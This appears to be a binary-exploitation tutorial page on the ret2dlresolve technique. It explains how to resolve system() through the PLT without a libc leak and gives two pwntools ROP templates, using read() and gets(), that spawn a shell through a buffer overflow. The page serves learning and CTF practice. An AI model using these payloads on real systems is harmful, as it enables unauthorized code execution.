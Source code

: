 ```yaml
---
description: >-
  A way to exploit buffer overflows using ROP when not many gadgets are
  available, and Full RELRO is disabled
---
```


# ret2dlresolve

Ret2dlresolve is a technique that can be used to trick the binary into resolving a specific function, such as `system()`, into the PLT (Procedure Linkage Table). By doing this, you can use the PLT function as if it was an original component of the binary. This bypasses ASLR and does not require any leaks of the libc address.

The attack is only possible when you can overwrite GOT entries, making it impossible on Full RELRO. On both No RELRO and Partial RELRO this attack is possible however:

![](<../../.gitbook/assets/image (2).png>)

For a more detailed explanation see:

{% embed url="https://ir0nstone.gitbook.io/notes/types/stack/ret2dlresolve" %}
Detailed analysis and information about ret2dlresolve from ir0nstone's notes
{% endembed %}

## PwnTools

PwnTools contains a [`ret2dlresolve`](https://docs.pwntools.com/en/stable/rop/ret2dlresolve.html) function that can generate payloads for this attack automatically.&#x20;

### `read()`

```renpy
rop = ROP(elf)
dlresolve = Ret2dlresolvePayload(elf, symbol='system', args=['sh'])
rop.raw(rop.ret)  # Align stack (64-bit)
rop.read(0, dlresolve.data_addr)  # Call read function to write data
rop.ret2dlresolve(dlresolve)  # Write data

p.sendline(flat({
    OFFSET: rop.chain(),
}))
p.sendline(dlresolve.payload)  # Run /bin/sh

p.interactive()
```

### `gets()`

```renpy
rop = ROP(elf)
dlresolve = Ret2dlresolvePayload(elf, symbol='system', args=['sh'])
rop.raw(rop.ret)  # Align stack (64-bit)
rop.gets(dlresolve.data_addr)  # Call read function to write data
rop.ret2dlresolve(dlresolve)  # Write data

p.sendline(flat({
    OFFSET: rop.chain(),
}))
p.sendline(dlresolve.payload)  # Run /bin/sh

p.interactive()
```

